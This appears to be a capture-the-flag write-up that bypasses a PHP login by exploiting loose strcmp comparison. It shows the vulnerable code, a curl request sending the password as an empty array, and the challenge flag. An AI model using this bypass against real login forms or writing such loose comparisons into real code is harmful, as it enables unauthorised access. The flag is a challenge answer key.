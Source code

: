 ## Solve:

- [ ] View the source code and see a debug option
  http://206.189.59.199:8003/?debug

  ```php
  if (isset($_POST['password'])) {
    if (strcmp($_POST['password'], $flag) == 0)
  ```
  
<br>

- [ ] See that the password is compared with the flag using `strcmp` and brings up 2 problems:<br>
    - The comparation uses only 2 equal signs `==`, meaning it only checks that the values are equal, whereas the proper way would be to use 3 equal signs `===`, so it checks for both value and type.
    - For older versions, strcmp is vulnerable: it can compare an empty array to a value and return `0` (True)
    
<br> 

- [ ] Send a HTTP POST request in which the `password` argument is an empty **array**, then extract the flag.
  ```bash
  curl -s -X POST 'http://206.189.59.199:8003/' -d 'username=admin&password[]=&submit=Login' \
  | tail -n1 | awk -F'Flag: ' '{print $2}' | cut -d' ' -f1
  ```

<br>

## Flag:
`flag{byp455_7h3_c0mp4r4710n}`

